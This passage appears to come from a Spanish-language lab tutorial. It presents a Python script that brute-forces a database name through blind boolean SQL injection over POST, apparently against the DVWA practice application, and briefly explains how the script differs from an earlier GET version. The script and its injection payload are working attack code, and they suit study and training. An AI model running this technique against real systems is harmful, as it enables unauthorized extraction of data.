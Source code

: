 ```py
characters = string.ascii_lowercase + string.digits + "-_:@!$%&()*+/;<=>?[\]^{|}.~"

def makeRequest():
    
    database = ""

    p1 = log.progress("Enumerar base de datos")
    p1.status("Iniciando ataque de fuerza bruta para enumerar el nombre de la base de datos actual")

    time.sleep(2)

    p2 = log.progress("database name")

    cookies = {
            'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
            'security': "medium"
            }

    header = {'Content-Type': "application/x-www-form-urlencoded"}

    for position in range(1,51):

        for character in characters:

            hexadecimal = hex(ord(character))

            data_post = {
                    'id': "1 AND (SELECT SUBSTRING(database(),%d,1))=%s -- -" % (position, hexadecimal),
                    'Submit': "Submit"
                    }
            
            p1.status(data_post['id'])

            r = requests.post(main_url, data=data_post, cookies=cookies, headers=header)

            if "User ID exists in the database." in r.text:
                database += character
                p2.status(database)
                break

if __name__ == '__main__':

    makeRequest()
```

En este código vemos que han cambiado varias cosas a comparación de los anteriores, en el caso de esta inyección no fue por el método GET, que se podía explotar por medio de la url y simplemente modificar ese valor para adaptarlo al script, pero como no fue por el método GET, sino por el POST, algunas cosas son distintas.
